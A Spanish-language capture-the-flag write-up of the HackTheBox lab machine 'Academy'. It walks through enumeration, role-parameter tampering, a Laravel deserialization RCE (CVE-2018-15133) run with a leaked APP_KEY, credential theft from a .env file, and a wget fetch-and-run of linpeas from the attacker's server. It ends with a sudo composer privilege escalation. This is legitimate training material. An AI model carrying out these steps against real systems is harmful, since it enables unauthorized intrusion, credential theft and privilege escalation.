En proceso 24/08/2022
# ACADEMY 

![Academy](https://user-images.githubusercontent.com/87484792/186432393-eb7af503-7ecd-438a-928b-1cd0cb754b90.png)

## Datos de interés 

**Academy** es una máquina que fue diseñada para publicitar la academia oficial de HackTheBox. **Academy** es una buena máquina y muy entretenida.
Empezaremos con un panel de registro muy parecido al de HackTheBox, tras modificar un parametro del registro podemos iniciar como una cuenta Admin.
Descubriremos un subdominio que tras la explotación de una deserializacion en Lavarel obtendremos una shell gracias a RCE. Encontraremos una contraseña de usuario en un archivo *.env*, dicho usuario tendrá permisos de ADM por lo que podremos leer archivos de log, en ellos encontramos un inicio de sesión que nos permitirá un movimiento lateral a otro user del sistema. Dicho usuario contrendrá permisos de SUDO ante un binario vulnerable que nos otorgará acceso como root.

## Enumeración

`sudo nmap --min-rate 5000 -p- -vvv -sSCV -Pn -n -oN openPorts.txt 10.10.10.215` 

![image](https://user-images.githubusercontent.com/87484792/186436105-73f78571-10c3-4bd5-950c-c8aea3b7a3bb.png)

La enumeración con NMAP nos muestra tres puertos abiertos por TCP:

- 22 (SSH)
- 80 (HTTP)
- 33060 (MySqlx)

Como vemos en la enumeración, el puerto 80 nos redigirá a un dominio virtualizado **academy.htb**. Viendo esto, añadiremos este dominio a nuestro /etc/hosts

`10.10.10.215    academy.htb`

Hecho esto, veremos el contenido de la pagina. 

![image](https://user-images.githubusercontent.com/87484792/186438999-9624a08f-2a11-45b1-9f2a-9b28f9f506df.png)

En ella encontramos unicamente un *Login* y un *Register* 
Como no tengo ninguna credencial válida, iré a registrarme. Podriamos probar credenciales comunes pero ya adelanto que no servirá. 

![image](https://user-images.githubusercontent.com/87484792/186457342-4fe2fca4-9bda-4422-aafd-3907ac18ec52.png)

En el panel de Register me registro con `admin2:admin2`, parece funcional y tiene pinta de que puedo loguearme con estas credenciales.

![image](https://user-images.githubusercontent.com/87484792/186491032-732cb7aa-c711-451b-a8f7-34bf7c8a578d.png)


El panel de login me redirige a este home.php que emula a HackTheBox. Como podemos ver los links estan capados para no dirigir a ningún lado, así que por lo que parece esto es un rabbit hole, o al menos, no es un camino útil. Podemos fuzzear a ver si encontramos algo en el panel principal, todos los archivos parecen ser *.php* así que fuzearemos con esta extensión.

![image](https://user-images.githubusercontent.com/87484792/186491864-25383487-fab4-4f74-8c53-b3e64ecde121.png)

**admin.php** me llama muchisimo la atención. Echemos un ojo.

![image](https://user-images.githubusercontent.com/87484792/186492096-a13675cf-7315-4111-b838-c6c1f2eb2074.png)

## Shell www-data

Al parecer es otro login, pero como se puede ver en el titulo, es un login de cuentas administradores.
Podiamos intentar buscar las credenciales, o bruteforcearlo, pero antes de todo.. echemos un ojo al comportamiento de la web cuando registramos una cuenta nueva.
Utilizaremos BurpSuite para enviar las request a traves de un proxy, en él, visualizaremos la data que enviamos.

![image](https://user-images.githubusercontent.com/87484792/186492718-7f9b21c1-ac7c-4293-9c42-81e046afe846.png)

**roleid** parece ser un controlador que asigna a la cuenta un "Rol". El valor inicial es un 0, pero... ¿que pasa si lo cambiamos de valor? en este caso un 1.
La creación de la cuenta es exitosa, y al probarlo en el admin.php nos da como resultado el poder adentrarnos en una "lista/tabla de tareas"

![image](https://user-images.githubusercontent.com/87484792/186493573-fa1110cb-2096-487b-9409-65cab9fe9274.png)

Tenemos un subdominio nuevo que seria muy raro que pudiesemos encontrar en un diccionario común, así que agregemoslo al */etc/hosts*

Tras ingresar en él, podemos ver que estamos antes Laravel, linkeos de rutas absolutas y algo muy interesante. **APP_KEY** se nos muestra en los archivos de configuración. En Laravel Framework hasta 5.5.40 y 5.6.x hasta 5.6.29, la ejecución remota de código puede ocurrir como resultado de una llamada de deserialización en un valor X-XSRF-TOKEN potencialmente no confiable, se presenta como CVE-2018-15133 y hay exploits disponibles.

![image](https://user-images.githubusercontent.com/87484792/186663935-bf62f34b-8f0a-426a-a872-970a791bb7a5.png)

Utilizaré algún exploit de Github, no parece muy dificil de utilizar. Tras leer un poco el exploit podemos poner un modo `--interactive` para otorgar una shell en vez de ejecutar un comando especifico. El comando quedaria así:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" --interactive`

![image](https://user-images.githubusercontent.com/87484792/186666733-7efeb5d1-f52c-4831-b112-899bcc52f3bd.png)

Me mandaré una shell a netcat, haré un tratamiento de la TTY y empezaré a investigar un poco.

## www-data ->  cry0l1t3

Tras lo anterior quedó mejor para trabajar, ahora toca investigar.

En la HOME del user, podemos encontrar la flag.

![image](https://user-images.githubusercontent.com/87484792/186687015-c127ca66-250c-473c-99ac-e4bbe5b26e9c.png)

En la pagina de Laravel veiamos que habia ciertas variables de configuración, estas variables se pueden encontrar en **.env**, donde aparecian usuarios y una contraseña "secreta". Este archivo pertenecia al subdominio encontrado, pero ¿Que pasa si lo buscamos en el academy? 

![image](https://user-images.githubusercontent.com/87484792/186669255-fee56be3-9adf-4258-b7f6-38dd305ea2a5.png)

Encontramos una contraseña, probemos a ver a que usuario pertenece.

![image](https://user-images.githubusercontent.com/87484792/186670048-dbeb3978-78cd-4bfc-af38-fb0fa44234a1.png)

El usuario es cry0l1t3, me conectaré por SSH. 

## cry0l1t3 -> Mrb3n

Lo que normalmente suelo hacer una vez entro como un usuario, es visualizar a que grupos pertenezco. Esto nos da información sobre los privilegios que tenemos sobre el sistema 

![image](https://user-images.githubusercontent.com/87484792/186673917-ae0c889b-0bae-4a81-ad26-c5ef44347ca9.png)

Pertenecemos al grupo **ADM**, este grupo nos permite leer archivos logs en */var/logs/*. Esto es muy bueno porque tenemos la posibilidad de visualizar logs de inicios de sesión. **linpeas** nos ayudará a leer todos los archivos criticos del sistema. Me lo traeré desde mi máquina y lo ejecutaré en la máquina victima.

Máquina atacante:

`python3 -m http.server 80`

Máquina victima: 

```
wget http://ip/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://user-images.githubusercontent.com/87484792/186680200-c25e5629-7b9f-42a1-82b1-2a302edebaab.png)

Linpeas encontró un inicio de sesión sobre el usuario mrb3n. `su mrb3n` y entramos a su usuario.

## mrb3n -> root

Una vez dentro de mrb3n, obtenemos una shell en "sh", ejecutamos bash y obtendremos una shell en bash.
Nuevamente me fijo en los grupos asignados al usuario, pero no hay ninguno más alla del propio grupo de usuario.
El siguiente paso que suelo hacer es verificar si tenemos algún permiso de SUDO, en este caso si.

![image](https://user-images.githubusercontent.com/87484792/186684026-334868e9-daa6-47f3-aeb5-16aa3e768d57.png)

Tenemos la posibilidad de ejecutar como cualquier usuario *sudo* el binario composer.

```
Composer es un sistema de gestión de paquetes para programar en PHP el cual provee los formatos estándar necesarios para manejar dependencias y librerías de PHP
```

Hay una pagina llamada **GTFOBins** donde podemos ver si el binario es vulnerable, y como explotarlo, para conseguir una escalada de privilegios.
En este caso es vulnerable, podemos escalar por SUDO, así que seguiremos los pasos.

![image](https://user-images.githubusercontent.com/87484792/186684937-86a89b38-87df-446b-9b17-1f1ffbf1e650.png)

Una vez ejecutado:

![image](https://user-images.githubusercontent.com/87484792/186685900-651947be-8f62-4fdc-a0e5-7b3b5353e4ca.png)

Listo! ya tendriamos acceso como root y podriamos visualizar la flag de root

-------------------------------------------------------------------------------------------------------------------------

Muchas gracias por visualizar mi write up, se agradece respect en HTB :)

¡Happy Hacking! ^_^

Fd: Ly0nt4r



